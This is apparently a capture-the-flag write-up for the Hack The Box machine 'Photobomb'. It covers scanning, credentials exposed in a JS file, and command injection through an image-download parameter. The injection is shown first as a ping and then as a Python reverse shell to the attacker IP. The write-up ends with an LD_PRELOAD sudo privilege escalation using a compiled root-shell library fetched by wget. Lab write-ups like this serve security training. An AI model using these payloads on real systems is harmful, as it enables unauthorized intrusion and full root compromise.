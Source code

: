 # Photobomb HTB - Easy
## Itay Nafrin | October 17th

### IP = 10.10.11.182

### NMAP 

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx/1.18.0 (Ubuntu)
|http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### Web Enum

View the source and enter into the photobomb.js file the you will see the credentials to enter the /printr directory.

view-source: http://photobomb.htb/photobomb.js

input this url: http://pH0t0:b0Mb!@photobomb.htb/printer

After Entering /printer you can see you can download images and when you intercept the download with Burp you can see parameters like "photo", "filetype" and "dimensions" so you can test for code injection by pinging your Host(tun0) like so:

```

photo=kevin-charit-XZoaTJTnB9U-unsplash.jpg&filetype=png;ping -c 2 10.10.14.153&dimensions=1000x1500

```

right before you forward this request you need to intercept the traffic with tcpdump or simillar tools: 

```

tcpdump -nni tun0

```

now forward the request and see:

```

13:57:54.357293 IP 10.10.14.153.40174 > 10.10.11.182.80: Flags [FP.], seq 2263875648:2263875789, ack 4179447807, win 501, options [nop,nop,TS val 3536004392 ecr 421206325], length 141: HTTP: GET /printer/8452 HTTP/1.1
13:57:54.357399 IP 10.10.14.153.52626 > 10.10.11.182.80: Flags [FP.], seq 3999878915:3999879057, ack 1872341067, win 501, options [nop,nop,TS val 3536004392 ecr 421206313], length 142: HTTP: GET /printer/18498 HTTP/1.1

```

that means it worked and it's pinging.
now let's just input a reverse shell.


```

photo=kevin-charit-XZoaTJTnB9U-unsplash.jpg&filetype=png;python3+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.14.153",9999))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3b+os.dup2(s.fileno(),2)%3bp%3dsubprocess.call(["/bin/sh","-i"])%3b'&dimensions=1000x1500

```

```

$ rlwrap -cAr nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.153] from (UNKNOWN) [10.10.11.182] 57882
/bin/sh: 0: can't access tty; job control turned off
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
wizard@photobomb:home/wizard/photobomb$ cd ..
wizard@photobomb:home/wizard$ whoami && id && cat user.txt
wizard
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
296d07dd9715235c6e0c5659382be884

```


### Priv Esc

```

$ sudo -l 
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh

```

LD_PRELOAD can be invoked with sudo, let's create a simple PE shell to exploit this.

```

(Host)$ cat shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/usr/bin/bash");
}

```

Copy this C program and then compile it with gcc.

```
(Host)$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
(Host)$ python3 -m http.server 80
(Target)/home/wizard$ wget http://10.10.14.153/shell.so
(Target)$ sudo LD_PRELOAD=/home/wizard/shell.so /opt/cleanup.sh
/home/wizard# whoami && id && cat /root/root.txt
root
uid=0(root) gid=0(root) groups=0(root)
feb2632bd0ba4a114568a9bd2c191950
```

